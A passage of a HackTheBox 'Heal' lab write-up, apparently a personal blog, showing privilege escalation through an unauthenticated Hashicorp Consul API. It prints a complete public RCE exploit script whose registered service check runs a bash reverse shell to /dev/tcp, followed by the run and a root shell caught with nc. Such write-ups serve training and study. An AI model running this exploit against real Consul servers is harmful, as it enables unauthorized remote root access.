
Maybe that's why I can access to it without login in(?)
I will edit the python code so that id doesn't need to use a acl token.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ cat exploit.py
# Exploit Title: Hashicorp Consul v1.0 - Remote Command Execution (RCE)
# Date: 26/10/2022
# Exploit Author: GatoGamer1155, 0bfxgh0st
# Vendor Homepage: https://www.consul.io/
# Description: Exploit for gain reverse shell on Remote Command Execution via API
# References: https://www.consul.io/api/agent/service.html
# Tested on: Ubuntu Server
# Software Link: https://github.com/hashicorp/consul
import requests, sys
if len(sys.argv) < 5:
print(f"\n[\033[1;31m-\033[1;37m] Usage: python3 {sys.argv[0]} <rhost> <rport> <lhost> <lport>\n")
exit(1)
target = f"http://{sys.argv[1]}:{sys.argv[2]}/v1/agent/service/register"
json = {"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", f"bash -i >& /dev/tcp/{sys.argv[3]}/{sys.argv[4]} 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "gato", "Port": 80}
try:
requests.put(target, json=json)
print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
except:
print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
And it works!
┌──(oriol㉿zero)-[~/htb/heal]
└─$ python3 exploit.py 127.0.0.1 8500 10.10.14.61 3010
[+] Request sent successfully, check your listener
┌──(oriol㉿zero)-[~/htb/heal]
└─$ nc -nvlp 3010
listening on [any] 3010 ...
connect to [10.10.14.61] from (UNKNOWN) [10.10.11.46] 38074
bash: cannot set terminal process group (93200): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/#
What it seems to do this exploit is to create a new service named "gato". That service executes the reverse shell.